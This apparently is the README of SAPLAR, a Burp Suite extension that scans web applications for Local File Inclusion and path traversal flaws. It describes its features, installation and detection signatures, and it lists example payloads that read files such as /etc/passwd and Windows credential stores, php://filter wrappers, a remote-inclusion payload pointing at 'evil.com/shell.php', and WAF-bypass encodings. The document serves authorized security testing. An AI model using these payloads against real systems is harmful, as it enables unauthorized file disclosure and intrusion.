


# SAPLAR - LFI & Path Traversal Scanner

## 📌 Project Overview

SAPLAR is a powerful **Burp Suite extension** designed to **detect Local File Inclusion (LFI) and Path Traversal vulnerabilities** in web applications. This tool is built for **penetration testers, bug bounty hunters, and security researchers** who need an **automated, flexible, and highly efficient** LFI scanner within Burp Suite.

SAPLAR injects **LFI payloads** into various parts of HTTP requests, including:

- **GET Parameters**
- **POST Data**
- **Cookies**
- **HTTP Headers**

It then analyzes the **server response** to identify **LFI signatures**, potential file disclosures, and error patterns.

---

## ⚡ Features

### ✅ Multi-Vector LFI Injection

SAPLAR automatically injects **payloads into multiple request locations**:

- **Query Parameters** (`?file=../../etc/passwd`)
- **POST Body** (`file=../../etc/passwd`)
- **Cookies** (`session=../../etc/passwd`)
- **HTTP Headers** (`User-Agent, Referer, X-Forwarded-For, Authorization, etc.`)

---

### ✅ Wide LFI Payload Database

Includes **hundreds of payloads** targeting:

- **Linux systems** (`/etc/passwd`, `/proc/self/environ`, `/var/log/auth.log`)
- **Windows systems** (`C:\Windows\win.ini`, `C:\boot.ini`, `C:\Users\Administrator\NTUSER.DAT`)
- **PHP Wrappers** (`php://filter/convert.base64-encode/resource=index.php`)
- **Log file extraction** (`../../../../var/log/apache2/access.log`)
- **Remote inclusion possibilities** (`http://evil.com/shell.php`)

---

### ✅ Automatic Encoding & WAF Bypass

Payloads can be **automatically encoded** to bypass **security protections** such as **WAF (Web Application Firewalls)** and **input validation filters**:

- **Base64 Encoding**
- **URL Encoding (Single, Double, Triple)**
- **HEX Encoding**
- **Unicode Encoding**

---

### ✅ Signature-Based Response Analysis

SAPLAR scans **responses** for **known LFI indicators**, such as:

- **System Users:** `"root:x:0:0:"`, `"NT AUTHORITY\\SYSTEM"`
- **Configuration Files:** `"[boot loader]"`, `"kernel.core_pattern"`
- **Error Messages:** `"failed to open stream"`, `"No such file or directory"`
- **False Positive Filtering:** Detects **standard 403/404 responses** and **bypasses false positives**.

---

### ✅ Header & Cookie-Based Injection

Injects **LFI payloads** into common headers:

- **User-Agent**
- **Referer**
- **X-Forwarded-For**
- **Authorization**
- **X-Api-Key**
- **Accept-Charset**

Also attempts **cookie manipulation** by injecting **LFI payloads into session tokens and authentication cookies**.

---

### ✅ GUI Integration in Burp Suite

SAPLAR provides a **user-friendly** graphical interface within Burp Suite:

- **A dedicated "LFI Scan" tab** for managing scans.
- **Right-click any request** in Burp and select `"Scan for LFI"`.
- **Real-time exploit status updates** (`Exploited, Not Vulnerable, Possible LFI`).

---

## 🔧 Installation

1️⃣ **Open Burp Suite** and navigate to **Extender → Extensions**.  
2️⃣ **Click "Add"**, select **Python**, and load `SAPLAR.py`.  
3️⃣ The **"LFI Scan"** tab will now appear in Burp Suite.  

---

## 🚀 Usage

### 🔹 Active LFI Scanning

1️⃣ **Enable automatic scanning** in Burp’s **Proxy or Scanner settings**.  
2️⃣ SAPLAR will **inject payloads** and **analyze the responses**.  
3️⃣ If an **LFI vulnerability** is detected, it will be **flagged in the LFI Scan tab**.  

---

### 🔹 Manual LFI Scanning

1️⃣ **Right-click** on any HTTP request in **Burp Proxy, Repeater, or Scanner**.  
2️⃣ Select **"Scan for LFI"** from the context menu.  
3️⃣ View the **results** in the **LFI Scan panel**.  

---

## 🔍 Signature-Based Detection & Exploit Confirmation

SAPLAR **analyzes HTTP responses** for **LFI-related patterns**.

### 📌 **Direct File Output**
- `"root:x:0:0"` → Indicates **successful passwd file read**.
- `"[boot loader]"` → Indicates **Windows system file leakage**.
- `"NT AUTHORITY\\SYSTEM"` → **Windows privilege escalation** detected.

### 📌 **Error Messages**
- `"failed to open stream"` → **Indicates file inclusion attempt**.
- `"No such file or directory"` → **Confirms path traversal attempt**.

### 📌 **False Positive Prevention**
- **Content-Length Analysis**  
- **403/404 Page Detection**  

---

## 🔥 Planned Features (Upcoming Enhancements)

🚀 **Advanced Fuzzing** – Automate **LFI detection** with **dynamic payloads**.  
🚀 **More Encoding Methods** – **Triple encoding** & **custom bypass techniques**.  
🚀 **Full RFI Support** – **Test for Remote File Inclusion vulnerabilities**.  
🚀 **XSS & SQLi Detection** – Expand to **other common web vulnerabilities**.  

---

## ⚠ Legal Disclaimer

SAPLAR is **intended for authorized security testing and educational purposes only**.  
🚫 **Unauthorized testing** against systems **without explicit permission is illegal**.  
✅ **By using this tool, you agree to abide by ethical hacking principles**.  

---

## 🏆 Conclusion

SAPLAR is **one of the most powerful LFI detection tools within Burp Suite**.  
It combines **automated scanning**, **intelligent payload injection**, **advanced encoding techniques**, and **signature-based detection** to uncover **critical LFI vulnerabilities**.  

🔹 **If you have any suggestions or want to contribute, feel free to open a pull request!**  

---

